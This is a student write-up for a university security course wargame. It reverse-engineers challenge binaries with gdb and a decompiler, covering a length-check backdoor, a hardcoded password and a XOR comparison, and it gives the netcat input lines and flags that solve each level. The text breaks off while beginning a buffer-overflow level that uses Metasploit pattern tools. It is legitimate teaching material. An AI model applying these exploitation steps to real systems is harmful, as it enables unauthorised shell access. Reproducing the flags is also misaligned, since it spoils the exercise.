\documentclass[12pt, bibliography=totocnumbered]{article}
\usepackage[english]{babel}
\usepackage{setspace}
\usepackage[utf8]{inputenc}
\usepackage[document]{ragged2e}
\usepackage{fancyhdr}
\usepackage[toc,page]{appendix}
\usepackage{adjustbox}
\usepackage{hyperref}
\usepackage{lipsum}
\usepackage{float}
\usepackage{varwidth}
\usepackage{makecell}
\usepackage{graphicx}
\usepackage{hyperref}
 \usepackage{sectsty}
\usepackage{epigraph}
\renewcommand{\textflush}{flushepinormal}
 \newcommand{\ssection}[1]{%
  \section[#1]{\centering\normalfont\scshape #1}}
   \newcommand{\ssubsubsection}[1]{%
  \subsubsection[#1]{\normalfont\scshape #1}}
 \newcommand{\ssubsection}[1]{%
  \subsection[#1]{\normalfont #1}}
  \newcommand{\specialcell}[2][c]{%
\begin{tabular}[#1]{@{}l@{}}#2\end{tabular}}
\usepackage{geometry}
\geometry{
a4paper,
total={210mm,297mm},
left=20mm,
right=20mm,
top=30mm,
bottom=30mm,
}
\pagestyle{fancy}
\renewcommand{\footrulewidth}{0.4pt}
\fancyhf{}
\rhead{zID: z5081713}
\lhead{COMP9447 - Security Engineering Workshop | Semester 2, 2016}
\rfoot{Page \thepage}
\lfoot{Wargames - Write up.}

% DOC BEGIN
\begin{document}

\title{9447 Wargames - Write up\vspace{0.9in}
\begin{figure}[H]
\centerline{
\includegraphics[width=0.4\textwidth]{unswlogo.png}}
\end{figure}
\vspace{1.7in}}

\author{\textbf{Subramanya Vajiraya}\\Email: s.vajiraya@unsw.edu.au\\School of Computer Science \& Engineering\\University of New South Wales\\Kensington, NSW 2052}
\date{October 30, 2016}

\centering\maketitle
\thispagestyle{empty}
\newpage
\thispagestyle{empty}
\phantom{a}
\vfill
\centering{\emph{This page is intentionally left blank}}
\vfill
\newpage
\thispagestyle{empty}
\phantom{a}
\vfill
\centering{All the exploits used in this report and the report included has been uploaded to Google Drive and here's the link:
\underline{\url{https://drive.google.com/drive/folders/0B7jPU3N8qYpWSnJnSHVYZjhoaXc?usp=sharing}} }
\vfill
\newpage
\pagenumbering{roman}
\tableofcontents
\newpage
\pagenumbering{arabic}
\setcounter{page}{1}
\justify
\doublespacing
\ssection{\textbf{Level 0}}

Let's run the program \texttt{level0} from the binaries provided and get the PID using 

\begin{varwidth}{\linewidth}
\begin{verbatim}
     		(/root/9447/wargames/level0 &) && ps -ax | grep level
\end{verbatim}
\end{varwidth}

\begin{figure}[H]
\centerline{
\includegraphics[width=1\textwidth]{img/0/1.png}}
\end{figure}

Let's attach a debugger and take a look at the relevant part of disassembly of \texttt{challenge\_entry()} method:


\begin{verbatim}
   0x303036b3 <+56>:	push   0x64
   0x303036b5 <+58>:	push   esi
   0x303036b6 <+59>:	mov    edi,esi
   0x303036b8 <+61>:	push   ebx
   0x303036b9 <+62>:	call   0x30303450 <read@plt>
   0x303036be <+67>:	or     ecx,0xffffffff
   0x303036c1 <+70>:	xor    eax,eax
   0x303036c3 <+72>:	add    esp,0x10
   0x303036c6 <+75>:	repnz scas al,BYTE PTR es:[edi]
   0x303036c8 <+77>:	cmp    ecx,0xffffffa4
   0x303036cb <+80>:	jne    0x30303749 <challenge_entry+206>
   0x303036cd <+82>:	mov    DWORD PTR [ebp-0x88],0x0
   0x303036d7 <+92>:	mov    DWORD PTR [ebp-0x84],0x30303800
   0x303036e1 <+102>:	or     ecx,0xffffffff
   0x303036e4 <+105>:	mov    DWORD PTR [ebp-0x80],0x0
   0x303036eb <+112>:	mov    edi,0x303050e0
   0x303036f0 <+117>:	repnz scas al,BYTE PTR es:[edi]
   0x303036f2 <+119>:	push   esi
   0x303036f3 <+120>:	not    ecx
   0x303036f5 <+122>:	dec    ecx
   0x303036f6 <+123>:	push   ecx
   0x303036f7 <+124>:	push   0x303050e0
   0x303036fc <+129>:	push   ebx
   0x303036fd <+130>:	call   0x303034a0 <write@plt>
   0x30303702 <+135>:	call   0x303034c0 <fork@plt>
   \end{verbatim}

Here the program is taking 100 bytes input. But it is also checking the length to be equal to 90 bytes. If \texttt{strlen(input) == 90}, it prepares \texttt{execve()} statement and executes it.
\par to make it easy, here's the relevant C code of \texttt{challenge\_entry()} from a decompiler.
\begin{verbatim}
    read(fd, (char *)(int32_t)&buf, 100);
    if (strlen((char *)&buf) == 90) {
        int32_t v3 = 0;
        v2 = "level0";
        write(fd, "Correct password! Dropping to shell...\n", 
        strlen("Correct password! Dropping to shell...\n"));
        if (fork() == 0) {
            dup2(fd, 0);
            dup2(fd, 1);
            dup2(fd, 2);
            exec_argv[0] = (char *)&v2;
            envp[0] = (char *)&v3;
            execve("/bin/sh", exec_argv, envp);
            // branch -> 0x30303772
        }
 \end{verbatim}

So, all we need to do is run \\ \texttt{python -c 'print "A"*89' > wargame\_0.txt}\\ \texttt{cat wargame\_0.txt -| nc localhost 5000}

\begin{figure}[H]
\centerline{
\includegraphics[width=1\textwidth]{img/0/2.png}}
\end{figure}
Cool. Now, do the same thing by connecting to VM instead and get the flag:
\newline
\texttt{FLAG: \{\{13r7fuj1r3uf0o138f0cscmic1j9smakcmsa\}\}}
\newpage
\ssection{\textbf{Level 1}}
Let's run the program \texttt{level1} from the binaries provided and get the PID and attach it to \texttt{gdb}. Connect using \texttt{netcat} and put some junk as input. 
Start stepping through the instructions one by one. An eternity later, we can see that the program is invoking \texttt{strcmp()} with \texttt{c4shm0n3y}
Check EDX in the below fig.
\begin{figure}[H]
\centerline{
\includegraphics[width=1\textwidth]{img/1/1.png}}
\end{figure}
\newpage
So, all we need to do is run \\ \texttt{python -c 'print "c4shm0n3y"' > wargame\_1.txt}\\ \texttt{cat wargame\_1.txt -| nc localhost 5001}

\begin{figure}[H]
\centerline{
\includegraphics[width=1\textwidth]{img/1/2.png}}
\end{figure}
Cool. Now, do the same thing by connecting to VM instead and get the flag:
\newline
\texttt{FLAG: \{\{i thought flags had to be weird hashes\}\}}
\newpage
\ssection{\textbf{Level 2}}
Let's run the program \texttt{level1} from the binaries provided and get the PID and attach it to \texttt{gdb}. Connect using \texttt{netcat} and put some junk as input (I'm using 'A's). 
Start stepping through the instructions one by one.

While stepping, we can see that the input is being XORd with \texttt{0x41} and after some more steps, we can see that it is doing a \texttt{strcmp()}. 
\begin{figure}[H]
\centerline{
\includegraphics[width=1\textwidth]{img/2/1.png}}
\end{figure}
\newpage 
So lets set a breakpoint at \texttt{0x303037b7} so that we can see what strings it is actually comparing input against.
\begin{figure}[H]
\centerline{
\includegraphics[width=1\textwidth]{img/2/2.png}}
\end{figure}
Cool. We found our arguments. Now, we can use the same string as input since our input is being XORd with \texttt{0x41}. So lets XOR each byte of the string with \texttt{0x41} and send that as the input.
\begin{figure}[H]
\centerline{
\includegraphics[width=1\textwidth]{img/2/3.png}}
\end{figure}
\begin{figure}[H]
\centerline{
\includegraphics[width=1\textwidth]{img/2/4.png}}
\end{figure}

Cool. Now, do the same thing by connecting to VM instead and get the flag:
\newline
\texttt{FLAG: \{\{make dzhkh great again\}\}}

\newpage
\ssection{\textbf{Level 3}}

When we check the source code by decompiling, we can see that there is a \texttt{drop\_to\_shell()} function to drop to shell. This program can be exploited by overflowing the buffer. Now lets find the offset for return address by inputting some junk value and find out what is the EIP when it crashes. Since guessing game takes longer, we'll use Metasploit tools to create pattern string. For this we'll use metasplot's \texttt{pattern\_create.rb} to create a pattern string of about 300 bytes.

\begin{figure}[H]
